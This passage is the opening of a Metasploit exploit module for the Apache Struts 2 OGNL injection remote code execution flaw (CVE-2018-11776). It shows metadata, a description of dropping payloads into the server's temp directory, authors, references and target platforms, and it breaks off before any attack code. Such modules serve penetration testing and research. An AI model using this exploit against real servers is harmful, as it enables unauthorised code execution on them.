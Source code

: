EXP
---

    ##
    # This module requires Metasploit: https://metasploit.com/download
    # Current source: https://github.com/rapid7/metasploit-framework
    ##

    class MetasploitModule < Msf::Exploit::Remote
      Rank = ExcellentRanking

      include Msf::Exploit::Remote::HttpClient
      include Msf::Exploit::EXE

      # Eschewing CmdStager for now, since the use of '\' and ';' are killing me
      #include Msf::Exploit::CmdStager   # https://github.com/rapid7/metasploit-framework/wiki/How-to-use-command-stagers

      def initialize(info = {})
        super(update_info(info,
          'Name'           => 'Apache Struts 2 Namespace Redirect OGNL Injection',
          'Description'    => %q{
            This module exploits a remote code execution vulnerability in Apache Struts
            version 2.3 - 2.3.4, and 2.5 - 2.5.16. Remote Code Execution can be performed
            via an endpoint that makes use of a redirect action.

            Native payloads will be converted to executables and dropped in the
            server's temp dir. If this fails, try a cmd/* payload, which won't
            have to write to the disk.
          },
          #TODO: Is that second paragraph above still accurate?
          'Author'         => [
            'Man Yue Mo', # Discovery
            'hook-s3c',   # PoC
            'asoto-r7',   # Metasploit module
            'wvu'         # Metasploit module
          ],
          'References'     => [
            ['CVE', '2018-11776'],
            ['URL', 'https://lgtm.com/blog/apache_struts_CVE-2018-11776'],
            ['URL', 'https://cwiki.apache.org/confluence/display/WW/S2-057'],
            ['URL', 'https://github.com/hook-s3c/CVE-2018-11776-Python-PoC'],
          ],
          'Privileged'     => false,
          'Targets'        => [
            [
              'Automatic detection', {
                'Platform'   => %w{ unix windows linux },
                'Arch'       => [ ARCH_CMD, ARCH_X86, ARCH_X64 ],
              },
            ],
            [
              'Windows', {
                'Platform'   => %w{ windows },
                'Arch'       => [ ARCH_CMD, ARCH_X86, ARCH_X64 ],
              },
            ],
            [
